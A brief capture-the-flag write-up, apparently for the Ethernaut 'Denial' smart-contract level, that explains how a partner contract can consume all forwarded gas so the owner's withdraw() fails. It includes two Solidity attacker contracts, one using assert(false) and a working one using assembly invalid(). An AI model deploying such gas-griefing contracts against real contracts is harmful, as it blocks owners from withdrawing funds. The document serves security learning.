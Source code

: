 ## Denial

1. After you read the contract Denial, you will conclude that only setWithdrawPartner() and withdraw() are changing state and we have to first setWithdrawPartner() and then withdraw() sends all the gas using .call() to partner. So, you have to use that to consume all the gas in order to fail the tx and the owner should not be able to withdraw a penny but lose on gas.

2. To solve the first thing that came in mind was to use a while loop in fallback() to consume all the gas, but i wanted to see if there are other methods so i watched D-squared, he gave the assert example and i tried it but it failed the reason is below.

```solidity
// it used to work in previous comipler's /evm/ solidity version and now assert does not consumer all the gas
contract DenialAttacker {
    fallback() external payable {
      assert(false);
    }
}
```

3. Next thing i did is watch smart contract programmer, and then i learnt below solution and used it to pass.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{
  receive() external payable {
    assembly {
      invalid()
    }
  }
}

```

4. I set the partner using console of the browser and then sumbit.

5. success
